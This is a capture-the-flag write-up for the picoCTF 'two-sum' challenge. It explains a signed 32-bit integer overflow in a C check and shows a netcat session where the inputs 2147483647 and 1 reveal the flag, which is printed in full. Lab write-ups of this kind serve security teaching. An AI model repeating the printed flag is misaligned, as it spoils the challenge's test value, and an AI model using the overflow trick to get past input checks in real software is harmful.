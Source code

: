 # Writeup: two-sum

## Overview

This challenge involves exploiting a simple integer overflow

## Analysis

### Code Overview

The program checks the sum of two integers results in an overflow:

```c
static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}
```

### Vulnerabilities
- Integer Overflow
In most programming languages, integer values are allocated a certain number of bits of memory. When the integer value exceeds the maximum or minimum value that can be stored, it causes an overflow. For example in this case, when you input `2147483647`(the maximum value for a 32-bit signed integer) and `1`, the sum overflows to `-2147483648`.

## Exploitation Strategy

1. Cause an integer overflow to get the flag

## Exploitation Step

```terminal
$ nc saturn.picoctf.net 53573
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
2147483647 1
You entered 2147483647 and 1
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_fe14e9e9}
```

## Conclusion 
By exploiting the integer overflow, we can pass the condition check and reveal the flag
